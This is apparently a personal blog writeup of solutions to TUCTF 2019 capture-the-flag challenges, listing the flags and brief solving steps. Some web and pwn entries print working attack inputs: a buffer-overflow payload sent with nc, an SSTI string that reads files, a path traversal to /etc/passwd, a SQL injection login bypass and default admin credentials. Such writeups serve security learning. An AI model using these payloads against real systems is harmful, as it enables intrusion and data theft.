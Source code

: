 ```yaml
---
layout: post
title:  "TUCTF 2019"
excerpt: CTF competition
tags: [ctf, challenges]
---
```



[https://tuctf.com/](https://tuctf.com/)
<br>
## completed challenges
**welcome**<br>
<p>welcome
![Alt text](../ctfs/tuctf2019/welcome.png)<br>
just needed to '.validate' on discord</p>
<pre>TUCTF{W3lc0m3_70_TUCTF._H4v3_fun}</pre><br>

**misc**<br>
misc - red yarn
strings DEBUG.COM | grep TUCTF
TUCTF{D0NT_F0RG3T_TH3_B4S1CS!}

misc - super secret
binwalk -e document.odt
cat _document.odt.extracted/Basic/Standard/flag.xml
TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}

misc - onions
opened with 7zip 
several layers deep and found flag
TUCTF{F1L3S4R3L1K30N10NSTH3YH4V3L4Y3RS}
**pwn**<br>
pwn - runme
strings runme | grep TUCTF
TUCTF{7h4nk5_f0r_c0mp371n6._H4v3_fun,_4nd_600d_luck}

pwn - thefirst
objdump -d ./thefirst
	080491f6 <printFlag>
python -c 'print "AAAAAAAAAAAABBBBCCCCDDDD"+ "\xf6\x91\x04\x08"' | nc chal.tuctf.com 30508
TUCTF{0n3_d0wn..._50_m4ny_70_60}
**crypto**<br>
crypto - common
https://medium.com/bugbountywriteup/rsa-attacks-common-modulus-7bdb34f331a5
TUCTF{Y0U_SH0ULDNT_R3US3_TH3_M0DULUS}

crypto - sonic
rot-cipher
TUCTF{W04H_DUD3_S0_F4ST_S0N1C_4PPR0V3S}

crypto - warren 
TUCTF{th4nks_f0r_d1n1ng_4641n_4t_th3_W4rr3n_buff3t}
**mega**<br>
mega - coffee
BREW /teapot
HTCPCP/1.0 418 I'm a teapot. Go to /broken.zip
https://tools.ietf.org/html/rfc2324
TUCTF{d0_y0u_cr4v3_th3_418}

mega - broken
strings broken.img | grep TUCTF
TUCTF{D1S4ST3R_R3C0V3RY}
**reversing**<br>
reversing - faker
gdb -q ./faker
	jump thisone
TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}
**web**<br>
web - open door
source code found flag
TUCTF{f1r5t_fl46_345135t_fl46} 

web - test test test
looked in imgs directory
todo.txt and flag.php files
pause requests on burp when selecting flag.php to reveal flag
TUCTF{d0nt_l34v3_y0ur_d1r3ct0ry_h4n61n6}
 
web - router where art thou
0.html - started off here with a form
1.html - tried this file and sonicwall login revealed
2.html - tried this file and palo login revealed
	admin:admin worked
TUCTF{y0u_f0und_th3_fun_r0ut3r_d3f4ult5}

web - and now for something completely different
found [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#template-format)
http://chal.tuctf.com:30007/welcome/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()%20%7D%7D
TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}

web - cute animals
lfi found on portal.php
/./././././././././././etc/passwd
TUCTF{m0r3_cut3_4n1m415_c4n_b3_f0und_4t_https://bit.ly/1HU2m5Q}

web - robots
/robots.txt but need
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}

web - login to access
sql injection revealed actual login login.html 
' or '1' = '1  
but login.php.bak file was found to reveal flag
TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk} 
